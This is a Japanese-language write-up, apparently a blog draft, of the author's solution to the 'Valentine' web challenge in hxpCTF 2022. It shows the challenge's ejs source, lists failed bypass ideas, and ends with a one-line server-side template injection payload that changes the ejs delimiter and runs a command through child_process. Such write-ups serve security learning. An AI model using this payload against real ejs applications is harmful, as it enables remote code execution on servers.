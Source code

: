 ```yaml
---
title: "hxpCTF 2022"
date: 2023-03-12T22:08:16+09:00
draft: true
---
```


hxpCTF 2022にソロ参加しました。  
3日間のCTFでがっつり時間を使って戦いましたが一問しか解けず1256チーム中121位でした。  
解けた問題のWriteupです。

## Valentine (113 solve)
バレンタインのカードのテンプレートをユーザの入力から作成可能なWebアプリ。  
テンプレートエンジンはejsで、埋め込むことのできるテンプレートは `<$= name $>` のみに制限されていました。

```js
// テンプレート登録箇所
app.post('/template', function(req, res) {
  let tmpl = req.body.tmpl;
  let i = -1;
  while((i = tmpl.indexOf("<%", i+1)) >= 0) {
    if (tmpl.substring(i, i+11) !== "<%= name %>") {
      res.status(400).send({message:"Only '<%= name %>' is allowed."});
      return;
    }
  }
  ...
});
```

```js
// テンプレート表示箇所
app.get('/:template', function(req, res) {
  let query = req.query;
  let template = req.params.template
  if (!/^[0-9A-F]{8}-[0-9A-F]{4}-[4][0-9A-F]{3}-[89AB][0-9A-F]{3}-[0-9A-F]{12}$/i.test(template)) {
    res.status(400).send("Not a valid card id")
    return;
  }
  if (!fs.existsSync(`views/${template}.ejs`)) {
    res.status(400).send('Valentine\'s card does not exist')
    return;
  }
  if (!query['name']) {
    query['name'] = ''
  }
  return res.render(template, query);
});
```

フラグを獲得するまでに試した主なことは以下です。
- シンプルに `<%` をバイパスする。
  - [JavaScriptにおけるUnicodeの扱いが複雑な件](https://mathiasbynens.be/notes/javascript-unicode)みたいな話があるのでUnicode表記とか、サロゲートペアとかその辺をいじいじして抜けないか試しましたが、失敗しました。
- custom delimitersを利用する。 
  - デフォルトでは、 `<$ $>` を利用するのですが、ドキュメントを読むとデリミタを変更できるようでした(下の画像)。prototype pollutionを使って、 `ejs.delimiter` を設定できないか考えたのですが、ぱっと見で無さそうだったので諦めました。
    ![custom delimiter](./custom_delimiter_documentation.png)
- HTTP parameter pollution → 特に面白いことできず失敗。
- ディレクトリトラバーサル　→ 厳格なチェックがあるためバイパス失敗。 　
- public exploit 
  - [CVE-2022-29078](https://eslam.io/posts/ejs-server-side-template-injection-rce/)

CVE-2022-29078の記事を見ていると `delimiter` をユーザ入力から変更していました。  
この脆弱性はすでに修正されていましたが、[パッチ](https://github.com/mde/ejs/commit/15ee698583c98dadc456639d6245580d17a24baf)を読むと、受け取ったoptionをマージする箇所は修正されていませんでした。  
そのため、この挙動を悪用して、 `delimiter` を変更できそうです。

処理を追ってみると、入力したdelimiterがoptionとしてマージされてました！

![merge1](./merge1.png)
![merge2](./merge2.png)

よってPoCは以下
```
// template
<$= global.process.mainModule.require('child_process').execSync('/readflag') $>
```

![PoC](./poc.png)

flag: `hxp{W1ll_u_b3_my_V4l3nt1ne?}`

---

## 所感
難しかったです。  
他のweb問は見慣れない形式だったので問題以前のところで詰まってしまいました。場数を増やしていろんな形式の問題に対応できるようになりたいなと思いました。  
あと関係ないですが、JavaScriptの文字コード問題を調べていた過程で、[urlパーサー](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf)と文字コードの話や[PHPのLFI](https://bierbaumer.net/security/php-lfi-with-nginx-assistance/)の話を見つけたので検証してみようと思います。
